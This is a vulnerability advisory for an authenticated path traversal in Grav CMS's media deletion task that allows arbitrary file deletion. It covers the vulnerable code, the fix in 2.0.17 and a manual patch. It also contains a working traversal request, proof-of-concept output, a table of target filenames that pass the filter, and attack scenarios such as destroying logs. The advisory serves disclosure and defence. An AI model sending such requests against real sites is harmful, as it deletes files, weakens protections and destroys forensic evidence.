

# Path Traversal in MediaUploadTrait::deleteFile() leading to arbitrary file deletion

**Affected versions:** Grav CMS 1.7.0 through 2.0.16 (verified in 1.7.45, 2.0.15, 2.0.16 develop)
**Fixed in:** 2.0.17 (added `checkFilepath()` full-path validation)
**CVE:** Not assigned
**CVSS 3.1:** 7.5 (High) — `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H`
**CWE:** CWE-22 (Path Traversal), CWE-73 (External Control of File Name or Path)

## Summary

Grav CMS exposes an authenticated media deletion endpoint through the admin panel (`media.delete` task). The `MediaUploadTrait::deleteFile()` method validates only the `basename()` of the user-supplied filename via `Utils::checkFilename()`, while preserving the attacker-controlled `pathname()` component. When the filename is reassembled as `$name = "{$pathname}{$base}.{$ext}"` and passed to `doRemove()`, the traversal sequences are preserved, causing `unlink("{$folder}/{$name}")` to delete files outside the intended media directory.

The upload counterpart (`checkFileMetadata()`) correctly validates the complete assembled filepath, but the deletion path omits this check. This is the same class of vulnerability pattern as CVE-2024-27921 (upload path traversal in `checkFileMetadata()`, fixed in 1.7.45), but affects the deletion code path instead. The vulnerability was introduced in 1.7.0 (when `MediaUploadTrait` was added) and fixed in 2.0.17 by adding `checkFilepath()` which validates the full path including the directory component.

## Vulnerability Description

### Entry point: FlexMediaTrait::deleteMediaFile()

The media deletion flow starts in `FlexMediaTrait::deleteMediaFile()`, which receives the filename from the HTTP request and forwards it directly to `$media->deleteFile($filename)` without any path validation:

```php
// system/src/Grav/Framework/Flex/Traits/FlexMediaTrait.php:292-301
public function deleteMediaFile(string $filename): void
{
    $media = $this->getMedia();
    if (!$media instanceof MediaUploadInterface) {
        throw new RuntimeException("Media for {$this->getFlexDirectory()->getFlexType()} doesn't support file uploads.");
    }

    $media->deleteFile($filename);  // filename passed with no path validation
    $this->clearMediaCache();
}
```

`FlexForm::getFileDeleteAjaxRoute()` generates the `/edit.json/task:media.delete` route:

```php
// system/src/Grav/Framework/Flex/FlexForm.php:411-422
public function getFileDeleteAjaxRoute($field = null, $filename = null): ?Route
{
    $object = $this->getObject();
    if (!method_exists($object, 'route')) {
        $route = Grav::instance()['route'];
        return $route->withExtension('json')->withGravParam('task', 'media.delete');
    }
    return $object->route('/edit.json/task:media.delete');
}
```

### Vulnerable code: MediaUploadTrait::deleteFile()

Inside `deleteFile()`, the application validates only the basename of the filename:

```php
// system/src/Grav/Common/Media/Traits/MediaUploadTrait.php:338-360
public function deleteFile(string $filename, ?array $settings = null): void
{
    $settings = $this->getUploadSettings($settings);
    $filesystem = Filesystem::getInstance(false);

    // First check for allowed filename.
    $basename = $filesystem->basename($filename);
    if (!Utils::checkFilename($basename)) {  // BUG: only checks basename, not pathname
        throw new RuntimeException(...);
    }

    $path = $settings['destination'] ?? $this->getPath();
    ...
    $pathname = $filesystem->pathname($filename);  // attacker-controlled path part
    [$base, $ext,,] = $this->getFileParts($basename);
    $name = "{$pathname}{$base}.{$ext}";  // reassembles with traversal path

    // Remove file and all the associated metadata.
    $this->doRemove($name, $path);  // calls unlink("{$folder}/{$name}")
}
```

### Sink: doRemove() with no traversal check

`doRemove()` calls `fileExists()` and then `unlink()`. The `fileExists()` method in `AbstractMedia` is a plain `file_exists()` with no path normalization:

```php
// system/src/Grav/Common/Page/Medium/AbstractMedia.php:594-596
protected function fileExists(string $filename, string $destination): bool
{
    return file_exists("{$destination}/{$filename}");
}
```

```php
// system/src/Grav/Common/Media/Traits/MediaUploadTrait.php:530-538
protected function doRemove(string $filename, string $path): void
{
    $filesystem = Filesystem::getInstance(false);
    $locator = $this->getGrav()['locator'];

    // If path doesn't exist, there's nothing to do.
    $pathname = $filesystem->pathname($filename);
    if (!$this->fileExists($pathname, $path)) {
        return;
    }

    $folder = $locator->isStream($path) ? (string)$locator->findResource($path, true, true) : $path;

    // Remove requested media file.
    if ($this->fileExists($filename, $path)) {
        $result = unlink("{$folder}/{$filename}");  // traversal sequences reach unlink()
    }
    ...
}
```

Because `file_exists()` resolves `../` sequences natively, it returns `true` when the traversed target file actually exists. The subsequent `unlink()` then deletes it.

### Contrast with upload path (checkFileMetadata)

The upload counterpart in the same class validates the complete assembled filepath:

```php
// system/src/Grav/Common/Media/Traits/MediaUploadTrait.php:156-163
$filepath = $folder . $filename;

if (!Utils::checkFilename($filepath)) {  // validates FULL path including traversal
    throw new RuntimeException(...);
}
```

This check would catch `../` sequences because `checkFilename()` strips `..` (line 1035: `str_replace('..', '', $filename) !== $filename`). The delete path omits this full-path validation, making it the vulnerable counterpart.

## Exploitation

### Prerequisites

1. **Authentication:** The attacker needs any user account with at least page-editing privileges (e.g. author or editor role in a multi-user Grav installation).
2. **Target file:** A file outside the media directory whose deletion causes impact. The filename must not start or end with `.` or space (due to `checkFilename()`'s `trim()` check on basename), and the extension must not be in the dangerous extensions list (`php`, `pht`, `phar`, etc.).

### PoC constraint: checkFilename rejects dot-prefixed names

`Utils::checkFilename()` rejects filenames starting or ending with `.` or space:

```php
// system/src/Grav/Common/Utils.php:1032-1033
|| trim($filename, '. ') !== $filename
```

This means `.htaccess` as a basename fails `checkFilename('.htaccess')` because `trim('.htaccess', '. ')` returns `'htaccess'` which differs from the original. The PoC must target files with "normal" basenames:

| Target filename | `checkFilename(basename)` | Reason |
|---|---|---|
| `.htaccess` | **FAIL** | Leading `.` rejected by `trim()` check |
| `security.yaml` | PASS | No dangerous characters |
| `index.html` | PASS | No dangerous characters |
| `backup.zip` | PASS | No dangerous characters |
| `index.php` | **FAIL** | Extension `php` in dangerous extensions list |

### Attack flow

1. Authenticate as any user with page-editing privileges and obtain a valid admin session cookie.
2. Send an AJAX request to the `media.delete` task endpoint with a `filename` parameter containing path traversal sequences:

```text
POST /admin/pages/01.blog/post-1/edit.json/task:media.delete HTTP/1.1
Host: target-site.com
Cookie: [authenticated session cookie]
Content-Type: application/x-www-form-urlencoded

filename=../../../../config/security.yaml
```

3. The server processes the request through the following chain:
   - `FlexMediaTrait::deleteMediaFile('../../../../config/security.yaml')` receives the raw filename
   - `deleteFile()` extracts `basename()` = `security.yaml`, which passes `checkFilename()`
   - `pathname()` = `../../../../config/` is reassembled with the basename into `$name`
   - `doRemove()` calls `file_exists("{$folder}/../../../../config/security.yaml")` → returns `true` (file exists)
   - `unlink("{$folder}/../../../../config/security.yaml")` executes — the file is deleted

4. With `$folder` resolved to e.g. `/var/www/grav/user/pages/01.blog/post-1`, the final `unlink()` path traverses to `/var/www/grav/config/security.yaml` and deletes it.

## Proof of Concept

A standalone PoC was developed and executed locally. It reproduces the exact vulnerable code logic from Grav CMS v2.0.15 and verifies that a file outside the media directory is deleted. The PoC source is in `grav_poc.php`.

### Setup

A simulated Grav directory structure was created:

```
/tmp/audit/grav-poc/grav_root/
├── config/
│   └── security.yaml          ← target file (OUTSIDE media dir)
└── user/pages/01.blog/post-1/
    └── photo.jpg              ← legitimate media file
```

### Execution

```
$ php poc.php

[Setup] Created target file: .../config/security.yaml
[Setup] File exists before attack: YES

========================================
[Attack] Injecting filename: ../../../../config/security.yaml

[deleteFile:339] basename extracted: 'security.yaml'
[deleteFile:340] checkFilename('security.yaml'): PASS (allowed)
[deleteFile:353] pathname extracted: '../../../../config/'
[deleteFile:357] reassembled name: '../../../../config/security.yaml'

[doRemove] Processing deletion...
[doRemove:530] fileExists(pathname='../../../../config/', path): TRUE
[doRemove:537] fileExists(filename='../../../../config/security.yaml', path): TRUE
[doRemove:538] unlink('.../user/pages/01.blog/post-1/../../../../config/security.yaml')

[CONFIRMED] File deleted successfully!

========================================
[VERIFICATION]
  Target file: .../config/security.yaml
  File exists after attack: NO (DELETED)
  Legitimate media file: .../photo.jpg
  Legit file still exists: YES (untouched)

[+] VULNERABILITY CONFIRMED:
    1. checkFilename() only validates basename('security.yaml') -> PASS
    2. Pathname '../../../../' survives unchecked
    3. Reassembled path '../../../../config/security.yaml' reaches unlink()
    4. File outside media directory was deleted

[Additional] Verifying .htaccess would be blocked:
  checkFilename('.htaccess'): FAIL (blocked)
  checkFilename('security.yaml'): PASS
  checkFilename('index.php'): FAIL (blocked by dangerous extension)
  checkFilename('index.html'): PASS
```

The target file `config/security.yaml` was successfully deleted while the legitimate media file `photo.jpg` was untouched. The `fileExists()` check in `doRemove()` did not prevent the traversal because it is a plain `file_exists()` that resolves `../` sequences natively.

### PoC screenshot



## Impact

An authenticated low-privileged user can delete arbitrary files on the server through the admin panel media deletion feature. Practical attack scenarios include:

1. **Deleting `config/security.yaml`** to disable XSS protection and the Twig sandbox, enabling further exploitation through stored XSS or server-side template injection.
2. **Deleting `config/site.yaml`** or other configuration files to cause a denial of service.
3. **Deleting backup or log files** to destroy forensic evidence.
4. **Deleting `.htaccess` is NOT possible** via this path because `checkFilename('.htaccess')` rejects dot-prefixed names. Attackers must target files with normal basenames.

## Version History

| Version | Status | Evidence |
|---|---|---|
| 1.7.0 – 1.7.44 | Affected | `MediaUploadTrait` introduced (commit `4fd54f169`, contained in 1.7.0 tag); `deleteFile()` uses basename-only check |
| 1.7.45 | Affected | Same vulnerable `deleteFile()` code confirmed in 1.7.45 tag (commit `4187a0423`) |
| 2.0.0 – 2.0.15 | Affected | Same code; verified in 2.0.15 tag (commit `d5f89d95d`) |
| 2.0.16 | Affected | Develop branch HEAD; identical vulnerable code |
| **2.0.17** | **Fixed** | Added `checkFilepath()` full-path validation; line 349 now checks `!$this->checkFilepath($filename) \|\| !Utils::checkFilename($basename)` |

The fix in 2.0.17 adds a new `checkFilepath()` method that rejects paths containing `..`:

```php
// system/src/Grav/Common/Media/Traits/MediaUploadTrait.php:438-444 (fixed in 2.0.17)
protected function checkFilepath(string $filename): bool
{
    return $filename !== ''
        && strpbrk($filename, "\\\0") === false
        && !str_starts_with($filename, '/')
        && !in_array('..', explode('/', $filename), true);
}
```

This is related to CVE-2024-27921 (upload path traversal in `checkFileMetadata()`, fixed in 1.7.45), which affected the same file but the upload code path. This vulnerability affects the deletion code path which was not fixed until 2.0.17.

## Remediation

Upgrade to Grav CMS 2.0.17 or later, which adds `checkFilepath()` to validate the full path before reassembly.

For environments that cannot upgrade immediately, apply the fix manually in `deleteFile()`:

```php
// Before the basename check, add full-path validation:
if (strpos($filename, '..') !== false || strpos($filename, '/') === 0) {
    throw new RuntimeException("Invalid file path", 400);
}
```

Or apply `Utils::checkFilename()` to the complete `$filename` (including the path component) rather than only the basename, matching the pattern in `checkFileMetadata()`.
